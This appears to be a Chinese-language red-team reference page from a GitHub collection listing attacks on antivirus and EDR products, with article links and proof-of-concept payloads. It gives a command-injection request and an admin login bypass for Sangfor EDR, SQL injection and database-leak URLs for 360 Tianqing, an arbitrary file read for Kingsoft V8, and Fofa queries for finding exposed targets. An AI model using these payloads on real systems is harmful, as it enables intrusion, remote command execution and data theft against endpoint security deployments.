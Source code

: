 **利用杀毒软件删除任意文件**
- 相关文章
    - [Exploiting (Almost) Every Antivirus Software](https://www.rack911labs.com/research/exploiting-almost-every-antivirus-software/)
        - [利用杀毒软件删除任意文件](https://idiotc4t.com/defense-evasion/using-antivirus-to-delete-files)

**白名单信任文件**
- 相关文章
    - [通过信任文件绕过火绒](https://mp.weixin.qq.com/s/mw8Sql8VtGfNGQkFxptWnQ)

## EDR

**深信服 EDR**
- 相关文章
    - [深信服DER RCE 复现](https://www.o2oxy.cn/3145.html)

- **2020.08命令执行**
    - 相关文章
        - [深信服终端检测响应平台 EDR 代码审计](https://www.sqlsec.com/2020/08/edr.html)
    - POC | Payload | exp
        - [A2gel/sangfor-edr-exploit](https://github.com/A2gel/sangfor-edr-exploit)

- **2020.09命令执行**
    - POC | Payload | exp
        ```
        POST /api/edr/sangforinter/v2/cssp/slog_client?token=eyJtZDUiOnRydWV9
        {"params":"w=123\"'1234123'\"|命令"}
        ```

- **后台任意用户登陆**
    - POC | Payload | exp
        ```
        xxx.xxx.xxx.xxx/ui/login.php?user=admin
        ```

**360天擎**

> Fofa: title="360天擎"

- **前台SQL注入**
    - POC | Payload | exp
        ```
        /api/dp/rptsvcsyncpoint?ccid=1
        ```

- **数据库信息泄露漏洞**
    - POC | Payload | exp
        ```
        http://x.x.x.x/api/dbstat/gettablessize
        ```

**金山 V8 终端安全系统**

> Fofa: title="在线安装-V8+终端安全系统Web控制台"

- **任意文件读取漏洞**
    - POC | Payload | exp
        ```
        /htmltopdf/downfile.php?filename=downfile.php
        ```

